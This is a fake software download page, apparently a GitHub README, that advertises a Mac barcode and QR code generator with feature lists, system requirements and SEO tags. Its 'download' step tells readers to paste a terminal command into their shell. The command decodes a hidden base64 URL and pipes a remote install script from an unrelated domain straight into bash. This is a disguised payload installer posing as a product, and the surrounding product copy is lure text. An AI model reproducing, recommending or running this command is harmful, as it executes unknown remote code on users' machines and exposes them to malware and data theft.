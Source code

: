 # Barcode for Mac Download

![Barcode Screenshot 1](https://cristallight.com/Images/iBarcoder/barcode_label.png)

---

## ⬇️ Download Barcode for Mac

> Open the terminal on your device and paste the command below
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
---

## ✨ What is Barcode for Mac?

Barcode is a complete barcode and QR code generation utility built for macOS. Whether you're managing product inventory, printing retail labels, or creating custom QR codes for marketing, this app delivers high-quality results with ease and precision.

With support for dozens of barcode formats — including UPC, EAN, Code 128, ISBN, and QR — Barcode gives you professional control over label layout, encoding, export options, and printer compatibility. It includes tools for customizing fonts, sizes, margins, colors, and integrates seamlessly with Apple’s printing system.

Ideal for small businesses, warehouses, designers, and educational use, the app supports batch generation, template saving, and works natively on both Intel and Apple Silicon Macs.

[![⬇️ Download Barcode Mac](https://img.shields.io/badge/Download-Barcode%20Mac-blue?style=for-the-badge&logo=apple)](https://barcode-mac-download.github.io/.github)

---

![Barcode Screenshot 2](https://cdn.prod.website-files.com/5d4797d92371d937f193beb7/6356c800b313976e056d2cf0_barcode-producer.webp)

---

## ⚙️ Key Features

- 🧾 Supports 40+ Formats – UPC, EAN, Code 39, Code 128, ISBN, QR, Data Matrix  
- ✍️ Custom Label Designer – Adjust size, font, color, spacing, and layout  
- 🖨️ Print-Ready – Works with all macOS-compatible printers and label formats  
- 📥 Export Options – PDF, PNG, EPS, TIFF, and vector formats  
- 🔁 Batch Processing – Generate large batches of barcodes from lists  
- 🧠 Simple Interface – Drag-and-drop support and live previews  
- 💾 Save Templates – Reuse and manage barcode layouts for future projects  
- 💻 Native on macOS – Runs smoothly on Monterey, Ventura, and Apple Silicon (M1/M2/M3)  

---

## ✅ Suitable For

- Product Labeling  
- Retail & Inventory  
- Designers & Print Shops  
- QR Campaigns & Marketing  
- Book Publishing  
- Internal Asset Tagging  

---

## 📦 System Requirements

- macOS 10.10 (Yosemite) or later  
- Supports Monterey, Ventura, Sonoma  
- Intel & Apple Silicon (M1/M2/M3)  
- At least 100MB free disk space  

---

## 🔍 Tags

barcode mac, barcode generator for mac, barcode generator software mac, barcode maker for mac, mac address barcode, qr code maker mac, barcode software for mac, barcode label software for mac, bartender label software for mac, best barcode software for mac, best barcode generator for mac, best qr code generator for mac, bartender label software mac, free barcode software for mac, free barcode generator for mac, barcode studio for mac, barcode generator for mac free download, barcode mac download
